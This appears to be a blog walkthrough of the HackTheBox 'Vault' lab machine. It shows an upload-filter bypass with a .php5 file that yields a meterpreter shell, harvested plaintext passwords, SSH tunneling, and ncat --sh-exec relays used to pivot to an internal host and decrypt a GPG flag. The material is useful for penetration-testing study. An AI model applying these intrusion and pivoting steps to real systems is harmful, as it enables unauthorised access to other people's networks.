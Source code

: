 ```yaml
---
layout: post
title:  "HackTheBox - Vault"
date:   2020-1-2 00:10:00 +0000
categories: htb
---
```

Vault is easily one of my favourite boxes on htb. It taught me a lot about tunneling and moving through a network any way possible. This is one of the boxes i got truely stuck into for days and could not stop thinking about what the next move was.

# Initial Nmap scan
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a6:9d:0f:7d:73:75:bb:a8:94:0a:b7:e3:fe:1f:24:f4 (RSA)
|   256 2c:7c:34:eb:3a:eb:04:03:ac:48:28:54:09:74:3d:27 (ECDSA)
|_  256 98:42:5f:ad:87:22:92:6d:72:e6:66:6c:82:c1:09:83 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
No exact OS matches for host
```

# First webapp
The initial webapp doesnt give too much away but what it does say is enough. 
```
Welcome to the Slowdaddy web interface
We specialise in providing financial orginisations with strong web and database solutions and we promise to keep your customers financial data safe.
We are proud to announce our first client: Sparklays (Sparklays.com still under construction) 
```

We can infer from this that 'sparklays' will be a directory, we can add this to our directory bruteforcer to find the relevant files.
/sparklays/admin.php - login prompt
/sparklays/login.php - 'access denied'
/sparklays/design/uploads - file upload

# Landing a shell
Testing some file uploads, its clear we cant upload anything with a .php extension, .php5 however, works just fine. Navigating to the page with our file executes and we get our meterpreter session.
The directory listing on the server is as follows:
```
home/alex
home/dave
	servers.txt;
		DNS + Configurator - 192.168.122.4
		Firewall - 192.168.122.5
		The Vault - x
	key.txt;
		itscominghome
	ssh.txt;
		Dav3therav3123
```
# Second webapp
We now have ssh creds for dave. We can now tunnel to access that page we couldnt reach before.
```
ssh -L 8888:192.168.122.4:80 dave@10.10.10.109
```
This page looks to be a testing page for a vpn config. Theres also a /notes directory which contains the following
```
chmod 123.ovpn and script.sh to 777
```

I found this handy guide on the best way to exploit this vpn testing page for code execution (link)

We can use nc as a listener on daves system because where in the dns. Now we land as root @ dns and we can get the user flag.

Theres a new ssh file in the dave directory on the dns now. 
```
theres also a ‘ssh’ file in the dave dir
root@DNS:/home/dave# cat ssh
cat ssh
dave
dav3gerous567
```

Looks like a password or something but doesnt work on the initial site. We will have to keep it for later.




# breakpoint 1
At this point, what do we know.
- We are root@dns when we want
- We know there is an alex user
- We have unused passwords;
	- itscominghome
	- dav3gerous567
- We have the address of vault - 192.168.5.2

# Getting to the end

Checking /var/log/auth.log we get an interesting result.
```
root : TTY=unknown ; PWD=/var/www/html ; USER=root ; COMMAND=/usr/bin/ncat -l 1235 --sh-exec ncat 192.168.5.2 987 -p 53
```

From this we get an idea of what we have to do. We have to use netcat to inject another netcat for us to connect to.

```
sudo ncat -l 1234 --sh-exec "ncat 192.168.5.2 987 -p 53" &
use the ampersand to background it
ssh dave@192.168.122.4 -p 1234
    
we get in
    
dave@vault:~$ ls
root.txt.gpg
```

We have our root flag right here but we cant decrypt yet.
We will have to move it from vault > dns > ubuntu.

# Root flag
oh jeez, weve come this far, and now we need to go back.
We have a GPG encrypted file (root flag) but the key is on the first system, since gpg works the way it works, we have to move it to that first system where the key is.
I chose to move the file with scp but in hindsight there was probably a better way of doing this.
```
dave@DNS:/tmp$ scp -P 1331 dave@192.168.122.4:/home/dave/root.txt.gpg /tmp
The authenticity of host '[192.168.122.4]:1331 ([192.168.122.4]:1331)' can't be established.
ECDSA key fingerprint is SHA256:Wo70Zou+Hq5m/+G2vuKwUnJQ4Rwbzlqhq2e1JBdjEsg.
Are you sure you want to continue connecting (yes/no)? yse
Please type 'yes' or 'no': yes
Warning: Permanently added '[192.168.122.4]:1331' (ECDSA) to the list of known hosts.
dave@192.168.122.4's password: 
root.txt.gpg                                                                                                                                      100%  629     0.6KB/s   00:00    
[1]+  Done                    sudo ncat -l 1331 --sh-exec "ncat 192.168.5.2 987 -p 4444"

dave@ubuntu:~$ scp dave@192.168.122.4:/tmp/root.txt.gpg .
dave@192.168.122.4's password: 
root.txt.gpg                                                                                                                                      100%  629     0.6KB/s   00:00    
dave@ubuntu:~$ gpg -d root.txt.gpg

You need a passphrase to unlock the secret key for
user: "david <dave@david.com>"
4096-bit RSA key, ID D1EB1F03, created 2018-07-24 (main key ID 0FDFBFE4)

gpg: encrypted with 4096-bit RSA key, ID D1EB1F03, created 2018-07-24
      "david <dave@david.com>"
<flag redacted>
```
Once back on the first system and decoding the flag, gpg asks for a password and weve had it all this time
Decrypting with the key gives us our flag to submit.





